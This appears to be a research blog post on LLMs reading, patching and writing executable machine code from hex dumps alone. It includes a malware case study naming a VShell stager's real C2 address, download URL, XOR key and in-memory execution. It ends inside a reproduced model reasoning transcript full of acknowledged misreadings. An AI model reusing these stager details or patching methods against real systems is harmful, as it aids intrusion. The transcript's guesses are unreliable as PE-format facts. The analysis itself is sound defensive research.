




Almost nobody writes machine code by hand. We write source, and a compiler and linker turn it into bytes; to go back, we use disassemblers and decompilers. There are good reasons for this. x86-64 instructions vary in length, jumps are relative byte distances, and one wrong header field means the file won't load. So what can an LLM do with those bytes when it has none of these tools?
Takehi et al. recently showed that LLMs can read and write neural network weights directly, which they call Weight-Space Programming
We define Machine Code Programming as a general-purpose LLM reasoning directly about an executable's bytes, with no compiler, assembler, disassembler or execution between it and the file. We test three abilities and one real-world case:
wordcount, through all three tasks. Replayed from the real run data.
gpt-6.1-sol, effort high) through Codex CLI 0.166.0.xxd hex dump pasted into the prompt, about 2.4 tokens per byte. Experiment 3 gets a written spec and no hex.qemu-x86_64 on Apple Silicon. Experiment 1 and Experiment 4 are not formally scored.Can an LLM work out what a binary does from its bytes alone?
We gave the model the hex dumps of three programs we wrote ourselves, plus one real binary from FreeBSD, ministat. The LLM correctly identified what all four programs were, with only their bytes as input.
| Program | Size | What Sol 6.1 reported |
|---|---|---|
wordcount | 5,368 B | Line, word and byte counter |
| AES tool | 9,152 B | AES-128/256 in ECB mode, encrypt only |
| Bank ledger | 8,872 B | Command interpreter for named accounts |
ministat | 67,392 B | Statistics tool with a pooled t-test and ASCII plot |
The hardest case is ministat. We built FreeBSD's tool at -O3, linked it statically against musl, stripped it and removed all of its own text, then hid its last three strings by setting each byte's high bit. The LLM found the decoding loop, recovered the option list and described all eight options.
To our surprise, the LLM even found a real bug from the bytes alone, with no access to the source. The binary has no symbols or text explaining the table. Reading the t-table as raw 64-bit floats, it noticed that the option labeled 99.5% confidence uses critical values for about 99.8%, so -c 99.5 applies a stricter test than it claims. We confirmed the bug in the original source code using Claude.
For each program we ask for one new feature. The model replies with a list of byte edits, each the same length as the bytes it replaces. Hidden tests then check that the old behavior still works, that the new feature works, and that long inputs are handled correctly. All three patched programs pass every test.
| Program | Extension asked for | Bytes changed | Output tokens | Time |
|---|---|---|---|---|
wordcount | Print a fourth number: the longest line's length | 74 (1.4%) | 3,440 | 93 s |
| AES tool | Add a dec command that decrypts | 544 (5.9%) | 9,324 | 201 s |
| Bank ledger | Add a transfer command between accounts | 379 (4.3%) | 6,859 | 140 s |




qemu-x86_64, and each pane shows exactly what that binary printed; only the typing is animated. On these commands the patched binaries also match our reference builds.How does it do it? Sol 6.1 treats this like a human patching a binary. It finds padding, makes that padding executable by editing the segment headers, writes new code there, and overwrites existing instructions with calls into it. Here is the whole wordcount patch:
0x1000 and can execute, which turns its zero padding into space for code.0x400200: zero the two new counters, current line length and longest line.0x400220: rerun the two instructions it overwrote, then reset the count on a newline, or else add one and update the longest.0x400240: print a space and the longest line using the program's own routines, then redo the overwritten mov edi, 10.0x1110 and 0x1190 itself.Now there is no binary at all. This time we ask the LLM to produce a fully functional ELF64 program from a written spec of its behavior. It gets no assembler and no compiler, and must reply with every byte of the file, headers included. All three files ran and matched the reference on every case.
| Program | File size | GCC build | Output tokens | Time |
|---|---|---|---|---|
wordcount + longest line | 391 B | 5,432 B | 6,035 | 124 s |
AES + dec | 4,144 B | 9,408 B | 22,812 | 474 s |
Ledger + transfer | 3,584 B | 8,896 B | 25,069 | 504 s |
Sol 6.1 worked out every jump, call and header field itself, with no assembler. Extending a program used 1.8 to 3.7 times fewer output tokens than writing it.
Malware analysts spend hours turning a sample back into assembly or C code with disassemblers and decompilers. We give Sol 6.1 a real sample using the same prompt as Experiment 1, with no hint that it is malicious. It is a 4,608-byte PE32+ file whose only visible import is Sleep. Its other API calls are hidden behind name hashes and its strings are built on the stack.
In 211 seconds, Sol 6.1 concluded that it downloads machine code and runs it in memory. Its report named a hardcoded server, 165.154.205.34 on port 443. We then compared it with a public VMRay dynamic analysis of the same file
| What Sol 6.1 reported | How we checked it |
|---|---|
| Finds 13 APIs by walking loaded modules and comparing rotate-right-13 hashes | We recomputed all 13 hashes independently: 13/13 match |
Exits if %TEMP%\log_de.log exists | The sandbox logged accesses to %TEMP%\log_de.log, and public reports describe this file as a kill switch |
Connects to 165.154.205.34 on port 443, sending plain HTTP rather than TLS: GET /?a=w64&h=165.154.205.34&t=ws_&p=443 | The sandbox's only contacted address was 165.154.205.34, on port 443 over HTTP, and it fetched http://165.154.205.34:443/?a=w64&h=165.154.205.34&t=ws_&p=443: the same URL |
| Retries every 10 s until the connection succeeds | Not confirmed: the sandbox shortened the sample's 9 min 15 s of sleeping to 20 s, and the server answered |
XORs the response with 0x99, then calls it from a writable, executable buffer | The sandbox downloaded a 5,158,400-byte windows_amd64.exe, created a read-write-execute page, and matched a memory dump to its VShell rule. Public reports on VShell's stager give the same key |
We made these comparisons after the run, and they cover one sample and one run. The sandbox confirms the address, the request and the download, but not the 10 s retry or the XOR key itself. Rotate-right-13 hashing is also common in public tooling, so recognition probably helped here too. We did not ask Sol 6.1 to modify malware or write any.
These are early results on small programs, but they may soon challenge the foundations of reverse engineering. Disassemblers, decompilers and the assembly they produce exist to turn bytes into something a person can read. In our experiments the LLM didn't need that step: it read, patched and wrote machine code directly. These tools are still essential for human analysts, but for an LLM they may turn out to be optional.
Malware analysis will also be affected. A model that works directly in machine code space can analyze a sample without first lifting it to assembly or source. That removes the slowest and most tool-dependent stage of triage, so more samples can be analyzed with less effort. Our results suggest that a general-purpose LLM can do this without being specialized for it, which could make both detection and analysis more efficient.
Context size is the hard limit. A hex dump costs about 2.4 tokens per byte, so our 67 KB binary took about 163,000 tokens. A 10 MB program would need about 24 million tokens. So this one-shot approach can't read very large programs, and because our largest test was 67 KB, we don't know how quality holds up on the way to that limit.
One way forward is a harness based on Recursive Language Models
Reading raw bytes is an established problem in malware detection, tackled with models trained for the job such as MalConv
Other work applies models to assembly, including the SLaDe decompiler
We repeat Experiment 4 with a different harness, opencode, and a different model, DeepSeek V4.1 Flash, whose weights are public under an MIT license. It gets the same sample and the same request at high reasoning effort, with one reply and no tool calls recorded. This is preliminary evidence that this ability isn't limited to closed frontier models.
| Sol 6.1 | DeepSeek V4.1 Flash | |
|---|---|---|
| Conclusion | Downloads code and runs it in memory | Same |
| API names matching our check | 13 of 13 | 9 of 13 |
| Server address, as in the VMRay sandbox | 165.154.205.34:443 | Same |
| Request URL, as in the VMRay sandbox | Exact match | One parameter misnamed: fh for h |
| Reasoning tokens | 5,178 | 89,902 |
| Time to answer | 211 s | 859 s |
How does it do it? The trace shows DeepSeek reading the bytes as hex. We checked three deductions against the executable.
0x400, then decodes e9 03 00 00 00 as a jump to 0x408, past three padding bytes.47 45 54 20 and 2f 3f 61 00 from two instructions that write to adjacent stack slots. Together they spell GET /?a. The dump has no ASCII column.rbx, reads 80 34 19 99 as XORing a byte in that buffer with 0x99, and decodes ff d3 as a call into the same buffer.DeepSeek reached the same conclusion with about 17 times as many reasoning tokens. It repeatedly revises its reading and explicitly recalls familiar API hashes. It gets nine of the 13 hidden function names right, and two of its naming errors lead it to misread the marker-file check.
This is the supplied reasoning transcript, including its false starts, revisions and incorrect guesses. It is model output, not a verified analysis. The text is reproduced unchanged.
We need answer detailed report no tools. Need analyze binary hex. It's Windows PE x64, likely shellcode loader / meterpreter-ish? Need reverse engineer.
We must not use tools; only given hex. Need produce detailed report. Let's decode.
PE header: MZ, PE at 0xc0. Machine 0x8664 (x64). Number sections 6? SizeOfOptionalHeader 0xf0? Characteristics 0x22 (executable, large address aware? 0x22 = executable image, large address aware). Magic 0x20b PE32+.
Sections:
.text VA 0x1000 size raw 0x831? virtual 0x831? Let's parse.
At 0x1c8 section table. First:
Name .text, VirtualSize 0x831, VirtualAddress 0x1000, SizeOfRawData 0xa00? At 0x1d0: 31 08 00 00 = 0x831; 00 10 00 00 VA 0x1000; 00 0a 00 00 raw size 0xa00; 00 04 00 00 pointer raw 0x400; relocs 0; linenums 0; numreloc 0; characteristics 0x60000020 code execute read.
.rdata at 0x1f0? Name at 0x1f8? Actually section 2 starts 0x1e8? Let's compute: section table starts 0xc0+4+20+0xf0 = 0x1c8? PE offset 0xc0. PE sig 4, COFF 20 -> 0xd8. Optional header 0xf0? At 0xd8 optional starts 0xe0? Wait optional header starts 0xd8? Let's recalc. At 0xc0 PE\0\0. COFF header at 0xc4: machine 64 86, numsections 03 00 (3), timestamp fe 75 3a 65, ptr sym 0, num sym 0, size opt 0xf0 at 0xd4? COFF bytes:
0xc4-0xc5 machine
0xc6-0xc7 numsections = 03 00 (3 sections)
0xc8-0xcb timestamp
0xcc-0xcf pointer symbol
0xd0-0xd3 number symbols
0xd4-0xd5 size optional 0xf0
0xd6-0xd7 characteristics 0x22
Optional at 0xd8, 0xf0 bytes -> ends 0x1c8. Section headers at 0x1c8. But data at 0x1c8 shows ".text"? Actually at 0x1c0 row: 00 00 00 00 00 00 00 00 2e 74 65 78 74 00 00 00. So section at 0x1c8 indeed name ".text". Good.
Sections:
.text VA 0x1000 vsize 0x831 rawsize 0xa00 rawptr 0x400. .rdata at 0x1f0? Name `2e 72 64 61 74 61 00 00` starting 0x1f0? Wait 0x1e8 row has 00 00 00 00 00 00 00 00 2e 72... Actually row 0x1e0: 00 00 00 00 00 00 00 00 00 00 00 00 20 00 00 60. So first section header spans 0x1c8-0x1ef. Second at 0x1f0: 2e 72 64 61 74 61 00 00. vsize be 01 00 00=0x1be, VA 0x2000, rawsize 0x200, rawptr 0xe00, characteristics 0x40000040 = initialized data read.
Third .pdata at 0x218? Actually at 0x218 row? Name .pdata: 2e 70 64 61 74 61 00 00 at 0x218. vsize 0x18? bytes 18 00 00 00 at 0x220? VA 0x3000, rawsize 0x200, rawptr 0x1000, chars 0x40000040. Wait Data at 0x240 onwards zeros. Hmm but 0x1000 in hex dump contains .pdata (exception directory) with entries, yes raw pdata at 0x1000? But rawsize 0x200. Actually header at 0x218 says ptr raw 0x1000? At 0x228: 00 00 00 00? Let's parse:
Section .pdata header at 0x218:
0x218-0x21f name
0x220-0x223 vsize = 0x18 (24)
0x224-0x227 VA = 0x3000
0x228-0x22b rawsize = 0x200
0x22c-0x22f rawptr = 0x1000? Bytes at 0x220: 18 00 00 00 00 30 00 00 00 02 00 00 00 10 00 00 => yes VA 0x3000, size 0x200, ptr 0x1000. Wait rawptr 0x1000 overlaps? The .text raw is 0x400-0xdff, .rdata raw 0xe00-0xfff, .pdata raw 0x1000-0x11ff. But hexdump at 0x1000 starts pdata entries and 0x1100 zeros. However actual code extends to 0xb... within .text raw up to 0xdff? code at 0x400-0xc3f; zeros rest. .rdata at 0xe00? At 0xe00 there seems data/cert? Let's look: at 0xe00 starts `a8 21 00 00...` and 0xe60 `47 43 54 4c` etc. That's .rdata containing exception data? Wait .rdata raw 0xe00 size 0x200. It contains load config? Actually at 0xe60 "GCTL" indicates debug directory type? `47 43 54 4c` is "GCTL" (not standard debug type? 0x4c544347 = "GCTL"). Hmm could be .rdata at 0xe00. Let's analyze.
At 0xe00: a8 21 00 00 = RVA 0x21a8 maybe pointer to something. Then 0xe10: 00 ... fe 75 3a 65 timestamp. At 0xe18? 0d 00 00 00 0xdc... This looks debug directory entry: characteristics 0, timestamp, major 0, minor 0, type? Wait debug directory entries are 28 bytes. At 0xe08? Let's align: maybe .rdata starts at 0xe00 raw but with data? Hmm section raw pointer could be 0xe00 and .rdata data starts with something like import directory? At 0xe00 there is `00 00 00 00 00 00 00 00 a8 21 00 00...`? Let's check 0xe00 row: `a8 21 00 00 00 00 00 00 00 00 00 00 00 00 00 00`. 0xe10: `00 00 00 00 fe 75 3a 65 00 00 00 00 0d 00 00 00`. 0xe20 `dc 00 00 00 60 20 00 00 60 0e 00 00 00 00 00 00`. This actually debug directory maybe at 0xe08: Characteristics 0, TimeDateStamp 0x653a75fe at 0xe0c? Wait bytes: 0xe08-0xe0b = 00 00 00 00; 0xe0c-0xe0f = 00 00 00 00; 0xe10-0xe13 = 00 00 00 00; 0xe14-0xe17 = fe 75 3a 65. Not.
Maybe section raw pointer for .rdata is 0xe00, and at RVA 0x2000 data starts at file 0xe00. The content should include import directory, exception directory, load config, etc. But typical .rdata begins with IAT or debug? Let's parse optional data directories from optional header at 0xe0 onwards to know RVAs.
Optional header PE32+:
0xe0 magic 0x20b (bytes 0b 02)
0xe2 linker version 0e 24 (14.36?).
0xe4 SizeOfCode 0x00000a00? bytes 00 0a 00 00
0xe8 SizeOfInitializedData 0x400? bytes 00 04 00 00
0xec SizeOfUninitializedData 0
0xf0 AddressOfEntryPoint 0x1000? bytes 00 10 00 00 yes.
0xf4 BaseOfCode 0x1000.
0xf8 ImageBase 0x140000000? bytes at 0xf8: 00 00 40 01 00 00 00 00 = 0x140000000.
0x100 SectionAlignment 0x1000.
0x104 FileAlignment 0x200.
0x108 OS version 6.0
0x10c image version 0
0x110 subsystem version 6.0
0x114 Win32Version 0
0x118 SizeOfImage 0x4000
0x11c SizeOfHeaders 0x400
0x120 Checksum 0
0x124 Subsystem 0x2? Wait bytes at 0x118 row: 00 40 00 00 00 04 00 00 00 00 00 00 02 00 60 81. 0x118 00 40 00 00 (SizeOfImage 0x4000), 0x11c 00 04 00 00 (headers 0x400), 0x120 00 00 00 00 checksum, 0x124 02 00 subsystem = GUI? 2 = Windows GUI, 0x126 DllCharacteristics 0x8160 (high entropy VA, dynamic base, NX, terminal server aware?).
0x128 SizeOfStackReserve 0x100000, 0x130 stack commit 0x1000, 0x138 heap reserve 0x100000, 0x140 heap commit 0x1000, 0x148 loader flags 0, 0x14c NumberOfRvaAndSizes 0x10.
Data directories start 0x150:
0x150 export RVA 0? size 0? `6c 21 00 00 28 00 00 00` wait at 0x150 is `6c 21 00 00 28 00 00 00` yes! Export directory RVA 0x216c, size 0x28. Hmm .rdata at VA 0x2000, export at 0x216c. Interesting. It exports something.
0x158 import RVA 0? Let's parse rows:
0x150: 6c 21 00 00 28 00 00 00 = export dir RVA 0x216c size 0x28
0x158: 00 00 00 00 00 00 00 00 import none?
0x160: 00 30 00 00 18 00 00 00 = exception table RVA 0x3000 size 0x18
0x168: 00 00 00 00 00 00 00 00 security none
0x170: 00 00 00 00 00 00 00 00 reloc none
0x178: 00 00 00 00 00 00 00 00 debug? Wait at 0x170 row: `00 00 00 00 00 00 00 00 00 10 20 00 00 38 00 00`. Let's map: 0x170-0x177 = 0, 0x178-0x17f = 0x201000? Actually bytes 0x178: 00 10 20 00 00 38 00 00 => RVA 0x201000? That seems unlikely. Let's recalc data dirs start after 0x14c NumberOfRvaAndSizes: 0x14c-0x14f = 10 00 00 00. First dir at 0x150. Yes:
0x150-0x157 export: 6c 21 00 00 28 00 00 00 => RVA 0x216c,size 0x28.
0x158-0x15f import: 00 00 00 00 00 00 00 00.
0x160-0x167 exception: 00 30 00 00 18 00 00 00 => RVA 0x3000,size 0x18.
0x168-0x16f security: 0.
0x170-0x177 base reloc: 0.
0x178-0x17f debug: 00 00 00 00 00 00 00 00? Wait row 0x170: 00 00 00 00 00 00 00 00 00 10 20 00 00 38 00 00. Row 0x180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00.
Rows: 0x170 bytes = 00 00 00 00 00 00 00 00 00 10 20 00 00 38 00 00. So 0x170-0x177 = 0 (reloc), 0x178-0x17f = `00 10 20 00 00 38 00 00`? Wait that's 8 bytes starting at 0x178: 00 10 20 00 00 38 00 00. But actually 0x170 row 16 bytes: indices 0-7 = 0, indices 8-15 = 00 10 20 00 00 38 00 00. Hmm debug RVA 0x201000? Did I mis-shift? Let's check optional header data directory count. Maybe 0x14c is number of dirs but directories start 0x150? Yes. 16 entries * 8 = 128, ends 0x1d0. But section headers at 0x1c8; no, 0x150+128=0x1d0. Yet section headers at 0x1c8 per our earlier calc. Contradiction: section headers likely at 0x1d0? Let's recalc PE offset maybe 0xc0, COFF=0xc4, optional header size 0xe0? Wait at 0xd4? Let's carefully parse bytes at 0xd0:
0xd0: 00 00 00 00 f0 00 22 00 0b 02 0e 24 00 0a 00 00
So 0xd0-0xd3 = 00 00 00 00; 0xd4-0xd5 = f0 00; 0xd6-0xd7 = 22 00; optional starts 0xd8 = 0b 02. Yes optional header size 0xf0 ending 0x1c8. Directories at optional+112? PE32+ optional standard fields 24? Actually data directories start at optional header offset 112 (0x70), i.e. 0xd8+0x70=0x148, not 0x150! Let's recalc. PE32+ optional header before data dirs: magic 2 + linker 2 + size code 4 + init 4 + uninit 4 + entry 4 + basecode 4 + imagebase 8 + sect align 4 + file align 4 + OS 4 + image 4 + subsystem ver 4 + win32 ver 4 + size image 4 + size headers 4 + checksum 4 + subsystem 2 + dll chars 2 + stack reserve 8 + stack commit 8 + heap reserve 8 + heap commit 8 + loader flags 4 + num dirs 4 = 112 (0x70). Yes 0xd8+0x70=0x148. Number dirs at 0x144? Let's check bytes at 0x140 row: 00 00 00 00 10 00 00 00 00 00 00 00 00 00 00 00. At 0x140 = heap commit? Let's parse:
0x128 stack reserve? Hmm need shift. Let's list optional fields:
0xe0? Wait optional starts 0xd8:
0xd8 magic 0b 02
0xda linker 0e 24
0xdc SizeOfCode 00 0a 00 00
0xe0 SizeOfInitializedData 00 04 00 00
0xe4 SizeOfUninitializedData 00 00 00 00
0xe8 AddressOfEntryPoint 00 10 00 00
0xec BaseOfCode 00 10 00 00
0xf0 ImageBase 00 00 40 01 00 00 00 00
0xf8 SectionAlignment 00 10 00 00
0xfc FileAlignment 00 02 00 00
0x100 OS ver 06 00 00 00
0x104 Image ver 00 00 00 00
0x108 Subsystem ver 06 00 00 00
0x10c Win32Version 00 00 00 00
0x110 SizeOfImage 00 40 00 00
0x114 SizeOfHeaders 00 04 00 00
0x118 Checksum 00 00 00 00
0x11c Subsystem 02 00
0x11e DllCharacteristics 60 81
0x120 StackReserve 00 00 10 00 00 00 00 00 (0x100000)
0x128 StackCommit 00 00 10 00 00 00 00 00? Wait row 0x120: 00 00 10 00 00 00 00 00 00 10 00 00 00 00 00 00. yes 0x128 = 00 10 00 00 00 00 00 00 (0x1000)
0x130 HeapReserve = 00 00 10 00 00 00 00 00 (0x100000)
0x138 HeapCommit = 00 10 00 00 00 00 00 00 (0x1000)
0x140 LoaderFlags = 00 00 00 00
0x144 NumberOfRvaAndSizes = 10 00 00 00
0x148 first dir export = 00 00 00 00 00 00 00 00? Let's check row 0x140: `00 00 00 00 10 00 00 00 00 00 00 00 00 00 00 00`
At 0x148 = 00 00 00 00 00 00 00 00. Hmm then export is zero. But at 0x150 we saw 6c 21... Could be first dir at 0x148 = 0? Let's recalc: NumberOfRvaAndSizes at 0x144 = bytes 0x144-0x147 = 10 00 00 00. Directories at 0x148:
0x148 row: bytes: 0x148-0x14f = 00 00 00 00 00 00 00 00 (export zero)
0x150-0x157 = 6c 21 00 00 28 00 00 00 (import RVA 0x216c size 0x28)
0x158-0x15f = 00 00 00 00 00 00 00 00 (exception zero?)
0x160-0x167 = 00 30 00 00 18 00 00 00 (security? RVA 0x3000 size 0x18)
0x168-0x16f = 0
0x170-0x177 = 0
0x178-0x17f = 00 10 20 00 00 38 00 00? This doesn't fit.
Wait data directory order: Export, Import, Resource, Exception, Security, BaseRelocation, Debug, Architecture, GlobalPtr, TLS, LoadConfig, BoundImport, IAT, DelayImport, CLR, Reserved. If import dir = RVA 0x216c size 0x28, that's plausible because .rdata contains import descriptor at 0x216c and import name maybe. But at 0x148 zero export. Then 0x150 import 0x216c. Then 0x158 resource zero. Then 0x160 exception 0x3000 size 0x18. Then 0x168 security zero. Then 0x170 reloc zero. Then 0x178 debug = 00 10 20 00 00 38 00 00? That's weird: RVA 0x201000, size 0x3800? Wait bytes from row: 0x178: `00 10 20 00 00 38 00 00` = RVA 0x00201000? Actually little endian: 00 10 20 00 = 0x201000; size 00 38 00 00 = 0x3800. But SizeOfImage 0x4000, so debug at 0x201000 impossible. Did we shift one byte? Let's verify via row text:
00000170: 00 00 00 00 00 00 00 00 00 10 20 00 00 38 00 00
At 0x170-0x177 all zero. 0x178-0x17f = 00 10 20 00 00 38 00 00. Hmm maybe I misread line grouping? Wait line has 16 bytes: at offsets:
0x170 00
171 00
172 00
173 00
174 00
175 00
176 00
177 00
178 00
179 10
17a 20
17b 00
17c 00
17d 38
17e 00
17f 00
So 0x178 directory = RVA 00 10 20 00 = 0x201000? no, bytes at 0x178=00, 0x179=10, 0x17a=20, 0x17b=00 => 0x00201000. Size 0x3800. Something wrong. But maybe 0x178 is not debug; earlier directories shifted such that 0x178 is load config? Hmm.
Let's re-evaluate data directory start: PE32+ optional header standard+windows-specific fields maybe 112 including number dirs? Let me count again. Microsoft PE32+ optional header:
Offset 0 Magic (2)
2 MajorLinkerVersion (1)
3 MinorLinkerVersion (1)
4 SizeOfCode (4)
8 SizeOfInitializedData (4)
12 SizeOfUninitializedData (4)
16 AddressOfEntryPoint (4)
20 BaseOfCode (4)
24 ImageBase (8)
32 SectionAlignment (4)
36 FileAlignment (4)
40 MajorOperatingSystemVersion (2)
42 MinorOperatingSystemVersion (2)
44 MajorImageVersion (2)
46 MinorImageVersion (2)
48 MajorSubsystemVersion (2)
50 MinorSubsystemVersion (2)
52 Win32VersionValue (4)
56 SizeOfImage (4)
60 SizeOfHeaders (4)
64 CheckSum (4)
68 Subsystem (2)
70 DllCharacteristics (2)
72 SizeOfStackReserve (8)
80 SizeOfStackCommit (8)
88 SizeOfHeapReserve (8)
96 SizeOfHeapCommit (8)
104 LoaderFlags (4)
108 NumberOfRvaAndSizes (4)
112 DataDirectory[16] (128)
So start = optional + 112 = 0xd8+0x70 = 0x148. Correct.
Check bytes around 0x148 from dump:
0x140: 00 00 00 00 10 00 00 00 00 00 00 00 00 00 00 00
At 0x140=LoaderFlags (4) zeros; 0x144=NumberOfRvaAndSizes = 10 00 00 00. 0x148 = 00 00 00 00 00 00 00 00 export.
0x150: 6c 21 00 00 28 00 00 00 import RVA 0x216c size 0x28. Yes likely import directory. But then no export.
0x158: 00 00 00 00 00 00 00 00 resource
0x160: 00 30 00 00 18 00 00 00 exception RVA 0x3000
0x168: 00 00 00 00 00 00 00 00 security
0x170: 00 00 00 00 00 00 00 00 base reloc
0x178: 00 10 20 00 00 38 00 00 ??? Wait debug should maybe RVA 0x201000? But .rdata VA 0x2000, not 0x201000. Did we misidentify .rdata virtual address? At section table:
Second section .rdata header starts 0x1f0: name .rdata, virtual size 0x1be at 0x1f8? Let's parse:
0x1f0: 2e 72 64 61 74 61 00 00 (name)
0x1f8: be 01 00 00 (VirtualSize = 0x1be)
0x1fc: 00 20 00 00 (VirtualAddress = 0x2000)
0x200: 00 02 00 00 (SizeOfRawData = 0x200)
0x204: 00 0e 00 00 (PointerToRawData = 0xe00)
0x208: 00 00 00 00
0x20c: 00 00 00 00
0x210: 00 00 00 00
0x214: 40 00 00 40 chars = 0x40000040. Good.
Third section .pdata at 0x218:
Name .pdata
vsize 0x18 at 0x220
VA 0x3000 at 0x224
rawsize 0x200 at 0x228? Wait bytes at 0x220 row: `18 00 00 00 00 30 00 00 00 02 00 00 00 10 00 00`.
Thus 0x228-0x22b rawsize = 00 02 00 00 = 0x200. 0x22c-0x22f rawptr = 00 10 00 00 = 0x1000. Good.
So .pdata at raw 0x1000. The dump from 0x1000 contains pdata entries, which makes sense.
Then what's at 0x178 directory? It says RVA 0x201000? Wait maybe it's `00 10 20 00` as two values? Could it be base relocation directory at 0x170? Let's align directories differently if number of dirs at 0x144? Maybe optional header starts at 0xe0, not 0xd8? Let's inspect at 0xd8 bytes: `0b 02 0e 24 00 0a 00 00`. Magic 0x20b yes. Could optional header start 0xd8? COFF header size 20: PE offset 0xc0, signature 4 => 0xc4; +20=0xd8. yes.
Data dirs at 0x148. 0x178 is seventh directory (Debug). Value 0x00201000? Could be misread because maybe dump line 0x170 actually has 8 zeros then `00 10 20 00 00 38 00 00` but the `00 10 20 00` could be little-endian 0x201000. Yet .rdata mapping to RVA 0x2000, so debug RVA 0x2010? Wait maybe bytes are `00 10 20 00`: If RVA is 0x2010, bytes would be 10 20 00 00. Here we have 00 10 20 00 because maybe preceding 00 belongs to previous field? Let's see directory boundary may be 0x179 not 0x178 due to data directory count? No.
Wait maybe at 0x170 row: there are 9 zeros before 0x10? Let's count provided line exactly:
`00000170: 00 00 00 00 00 00 00 00 00 10 20 00 00 38 00 00`
Yes offset 0x170 + 8 = 0x178 = 00, 0x179 = 10, 0x17a = 20, 0x17b = 00. So 0x201000. This is bizarre unless it's a debug directory with RVA 0x2010 and size 0x3800? Actually if first byte 0x178 = 0, maybe the real address is 0x2010 but shift: bytes 10 20 00 00 should start 0x179. Could line have 9 bytes before 0x10? Let's not overfocus. Could be load config? Let's check 0x180 row all zeros, 0x190 zeros, 0x1a0 zeros with `00 20 00 00 10 00 00 00` at 0x1a0? Let's see:
0x190: zeros
0x1a0: 00 00 00 00 00 00 00 00 00 20 00 00 10 00 00 00
So at 0x1a8? RVA 0x2000, size 0x10. This likely IAT directory? Let's map all:
If data dirs start 0x148:
0x148 export 0
0x150 import 0x216c size 0x28
0x158 resource 0
0x160 exception 0x3000 size 0x18
0x168 security 0
